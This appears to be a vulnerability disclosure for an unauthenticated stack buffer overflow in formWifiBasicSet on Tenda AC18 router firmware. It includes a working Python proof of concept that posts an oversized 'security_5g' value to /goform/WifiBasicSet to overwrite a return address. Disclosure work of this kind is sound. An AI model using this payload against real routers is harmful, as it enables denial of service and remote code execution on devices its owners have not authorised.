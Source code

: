 Tenda AC18 Unauthorized stack overflow vulnerability

## **1. Affected version:**

Tenda ac18_kf_V15.03.05.19(6318_)_cn

## **2. Firmware download address**

<https://www.tenda.com.cn/download/detail-2683.html>

## **3. Vulnerability details**
![image](https://user-images.githubusercontent.com/65169560/212258478-ce2d24e8-e883-47de-8ca0-b6835191e520.png)

![image](https://user-images.githubusercontent.com/65169560/212258494-2402a992-6e8a-4057-be45-ec3d655a140e.png)

The function "formWifiBasicSet" contains a stack-based buffer overflow vulnerability. In the function, it reads in a user-provided parameter, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

## **4. Recurring vulnerabilities and POC**

'''import requests
from pwn import *

url = 'http://x.x.x.x/goform/WifiBasicSet'
pl = 'a'*564+p32(0xdeadbeef)
data = {'security_5g':pl, 'hideSsid':'1', 'ssid':'1', 'security':'1', 'wrlPwd':'1', 'hideSsid_5g':'1', 'ssid_5g':'1', 'wrlPwd_5g': '1'}

requests.post(url, data=data)
'''
## 5. Author

Drizzling_Sun @KRlab
